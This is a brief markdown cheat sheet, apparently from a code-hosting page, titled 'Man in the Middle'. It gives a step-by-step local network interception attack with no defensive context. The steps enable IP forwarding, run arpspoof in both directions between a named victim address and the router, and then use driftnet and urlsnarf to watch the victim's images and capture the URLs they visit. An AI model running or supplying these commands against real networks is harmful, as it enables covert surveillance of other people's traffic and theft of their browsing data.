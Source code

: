 # Man in the Middle

- Allow packet forwarding
```
sysctl net.ipv4.ip_forward=1
```

- Set up arpspoof between victim and router
```
arpspoof -i eth0 -t 192.168.0.90 192.168.0.1
```

- Set up arpspoof to capture all packet from router to victim.
```
arpspoof -i eth0 -t 192.168.0.1 192.168.0.90
```

- Monitor victim image traffic
```
driftnet -i eth0
```

- Capture website information 
```
urlsnarf -i eth0
```